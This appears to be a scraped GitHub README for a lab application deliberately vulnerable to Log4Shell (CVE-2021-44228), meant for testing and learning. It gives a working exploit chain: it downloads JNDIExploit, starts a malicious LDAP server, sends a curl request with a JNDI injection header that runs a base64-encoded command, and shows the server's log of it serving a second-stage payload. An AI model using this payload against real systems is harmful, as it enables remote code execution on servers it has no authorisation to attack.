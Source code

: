 # log4shell-vulnerable-app

Spring Boot web application vulnerable to Log4Shell (CVE-2021-44228).

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/christophetd](https://github.com/christophetd) |
| Url      | [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)                                               |
| Stars    | 1053                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* log4shell

</details>

## Readme

# Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528))... 
[Click Here](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to Download the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)



## Get the content

```
git clone https://github.com/christophetd/log4shell-vulnerable-app
cd log4shell-vulnerable-app
```

{% embed url="https://github.com/christophetd/log4shell-vulnerable-app" %}

<figure><img src="https://avatars.githubusercontent.com/u/136675?v=4" alt=""><figcaption><p>christophetd</p></figcaption></figure>
